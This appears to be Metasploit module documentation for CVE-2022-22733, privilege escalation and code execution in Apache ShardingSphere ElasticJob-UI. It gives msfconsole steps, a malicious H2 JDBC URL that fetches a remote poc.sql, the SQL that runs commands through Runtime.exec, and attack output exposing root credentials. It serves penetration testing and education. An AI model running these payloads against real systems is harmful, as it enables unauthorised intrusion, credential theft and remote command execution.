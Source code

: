 ## Vulnerable Application

A vulnerability discovered in Apache ShardingSphere ElasticJob-UI known as CVE-2022-22733, The vulnerability lead to exposure of sensitive informatiopns and as a results it allows an attacker who has guest account to do privilege escalation.

You can setup the app using docker: `sudo docker pull apache/shardingsphere-elasticjob-lite-ui:3.0.0`

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application: `sudo docker pull apache/shardingsphere-elasticjob-lite-ui:3.0.0`
1. Start msfconsole
1. Do: `use exploit/multi/http/apache_shardingsphere_cve_2022_22733`
1. Do: `set RHOSTS target`
1. Do: `set JDBC URL_to_your_malicious_sql_script`
1. Do: `exploit`
3. You should get `root` account credentials.

## Options
- `JDBC`: Payload URL for JDBC Attack ex: http://ip:8000/poc.sql.
- `PASSWORD`: Password for authentication.
- `Proxies`: A proxy chain of format type:host:port[,type:host:port][...]
- `RHOSTS`: The target host(s)
- `RPORT`: The target port (TCP)
- `SSL`: Negotiate SSL/TLS for outgoing connections
- `USERNAME`: The username to authenticate with
- `VHOST`: HTTP server virtual host


### Option Name

- `JDBC`: Payload URL for JDBC Attack ex: http://ip:8000/poc.sql. Which is used to add the url for your malicious sql script in the request to perform JDBC attack. And it's required.
- `PASSWORD`: The password for the low-privileged account that you have, the default value is `guest` that comes with the application, The user can change if he already has an account. And it's required.
- `Proxies`: A proxy chain of format type:host:port[,type:host:port][...]
- `RHOSTS`: The target domain/IP. And it's required.
- `RPORT`: The target port to the application, The default port that the application always use is `8088`. And it's required.
- `SSL`: Negotiate SSL/TLS for outgoing connections. In case the target uses SSL. And by default is not required.
- `USERNAME`: The username for the low-privileged account that you have, the default value is `guest` that comes with the application, The user can change if he already has an account. And it's required.
- `VHOST`: HTTP server virtual host and it's not required.

## Scenarios
### The `JDBC` option in case you don't know what is it, You can check it from [here](https://pyn3rd.github.io/2022/06/06/Make-JDBC-Attacks-Brillian-Again-I/).
Basically, If you have a privileged account like the `root` account, You will be able to create a database base connection.
Now, You may be wondering, If we have the root account credentials, Why we would need to Retrieve it's token ?. So, Basically to perform a connection throug the JDBC we need high-privileges and to automate this process let's see how it works first. 

![image](https://github.com/rapid7/metasploit-framework/assets/62406753/4e4be243-bc34-417c-aadf-faa157acce9e)

As you can see when we logged-in as guest we are not able to add any data source. But, If we login with the root account. We can see that we have the privileges to add data source and test the connection:

![image](https://github.com/rapid7/metasploit-framework/assets/62406753/06ac9719-2827-4062-ad98-aca4fc4b41e4)

Now, Under the Event Tracer Data Source click on Add button and add the following:

![image](https://github.com/rapid7/metasploit-framework/assets/62406753/f1d30e53-fb6f-4e5f-805f-6bf0ff0dca1f)

What did we done here?. We named Our data source, then used the h2 driver the H2 itself is a relational database management system, and the org.h2.driver is a JDBC driver used to connect to an H2 database from Java. The URL value:

```
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://192.168.0.162:8000/poc.sql'
```

Basically, This is a JDBC connection string which will connect a H2 in memory database with the name we give which is testdb. Then, `TRACE_LEVEL_SYSTEM_OUT=3` parameter enables trace logging to be printed to the console. Finally, `INIT=RUNSCRIPT FROM 'http://192.168.0.162:8000/poc.sql'` parameter specifies that the `poc.sql` script located at our URL should be executed when the database is initialized. But, What is inside poc.sql file ?:

```
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "123";}';CALL EXEC ('calc.exe')
```

In short words, This sql script uses the H2 database ability to create an alias to execute command and here we executing calc.exe for the demo of the exploit. Now, Let's start our http server that will host our poc.sql script and after that we click on Test Connect Button:

![firefox_aYpCgKHiha](https://github.com/rapid7/metasploit-framework/assets/62406753/378be99e-29d8-49e5-888b-538c5b6eeb62)


Now, As we understand it clearly we can run our metasploit module to perform all of these.

![vmware_4p7AtSwR60](https://github.com/rapid7/metasploit-framework/assets/62406753/7b6dcf50-7e77-4c92-8904-7ab6c00f0162)
```
[*] Attempting to authenticate...
[+] Authenticated Successfully
[*] Root username: root
[*] Root password: root
[*] Attempting to authenticate with root credentials...
[+] Authenticated with root credentials successfully
[*] Attempting JDBC attack...
[+] JDBC attack successful
```

For example:

To use it with the default config:

```
msf6 exploit(multi/http/apache_shardingsphere_cve_2022_22733) > set RHOSTS 192.168.0.162
RHOSTS => 192.168.0.162
msf6 exploit(multi/http/apache_shardingsphere_cve_2022_22733) > set JDBC http://192.168.0.162:8000/poc.sql
JDBC => http://192.168.0.162:8000/poc.sql
msf6 exploit(multi/http/apache_shardingsphere_cve_2022_22733) > exploit
```

# Reference
 You can read the vulnerability analysis from [Here](https://www.vicarius.io/vsociety/blog/cve-2022-22733-apache-shardingsphere-elasticjob-ui-privilege-escalation) & The exploit blog step by step from [Here](https://www.vicarius.io/vsociety/blog/unique-exploit-cve-2022-22733-privilege-escalation-and-rce).
